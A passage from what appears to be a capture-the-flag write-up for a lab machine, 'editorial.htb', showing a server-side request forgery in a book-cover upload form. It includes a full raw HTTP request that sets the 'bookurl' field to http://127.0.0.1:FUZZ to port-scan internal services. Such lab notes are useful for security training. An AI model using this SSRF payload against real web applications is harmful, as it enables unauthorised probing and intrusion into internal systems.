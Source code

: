 Make it fetch localhost

- If `bookurl` isn't valid, it will return a demo cover's url  : `/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg` 

![](/assets/obsidian/13be97ce41e79877a8b5f8ea6c666a94.png)

#### Port scanning

> `ssrf.req`

```http
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------167008962427088142091823041654
Content-Length: 359
Origin: http://editorial.htb
Connection: close
Referer: http://editorial.htb/upload
DNT: 1
Sec-GPC: 1

-----------------------------167008962427088142091823041654
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------167008962427088142091823041654
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------167008962427088142091823041654--
```
